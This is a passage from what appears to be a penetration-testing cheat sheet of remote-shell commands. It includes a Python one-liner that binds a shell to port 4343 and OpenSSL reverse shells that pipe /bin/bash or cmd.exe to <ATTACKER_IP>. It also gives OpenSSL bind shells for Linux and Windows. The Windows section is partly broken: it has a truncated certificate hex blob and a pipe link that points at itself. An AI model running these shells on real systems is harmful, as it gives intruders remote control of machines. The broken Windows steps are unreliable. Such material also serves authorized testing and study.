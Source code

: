 ```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.bind(("[::]",4343));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);subprocess.call(["cmd.exe"])'
```

### Open SSL

#### Reverse Shell
##### Attacker Machine
```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes #Generate certificate
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port> #Here you will be able to introduce the commands
openssl s_server -quiet -key key.pem -cert cert.pem -port <l_port2> #Here yo will be able to get the response
```

##### Target Machine
```bash
# Linux
openssl s_client -quiet -connect <ATTACKER_IP>:<PORT1>|/bin/bash|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>

# Windows
openssl.exe s_client -quiet -connect <ATTACKER_IP>:<PORT1>|cmd.exe|openssl s_client -quiet -connect <ATTACKER_IP>:<PORT2>
```

#### Bind Shell
##### Attacker  Machine
```bash
openssl s_client -connect <target_ip>:443
```

##### Target Machine
```bash
# Linux
mkfifo /tmp/ssl; /bin/sh -i < /tmp/ssl 2>&1 | openssl s_server -quiet -keyout key.pem -port 443 > /tmp/ssl
```
> Caution: This generates a temporary certificate each time, which can raise alerts in controlled environments.
{: .prompt-danger }

```bash
# Windows
certutil -f -decodehex "30820122300d06092a864886f70d01010105000382010f003082010a0282010100abcdeffedcba..." key.der >nul && certutil -encode key.der key.pem
# (This is just an example to generate a basic certificate; ideally, use openssl req manually if you have interactive access)
mklink \\.\pipe\sslpipe \\?\pipe\sslpipe
cmd.exe | openssl s_server -port 443 -quiet
```
> Note: Windows does not easily support FIFOs like Linux, so it is required to emulate the behavior with additional tools or scripts (for example, using PowerShell or Python + OpenSSL).
{: .prompt-info }
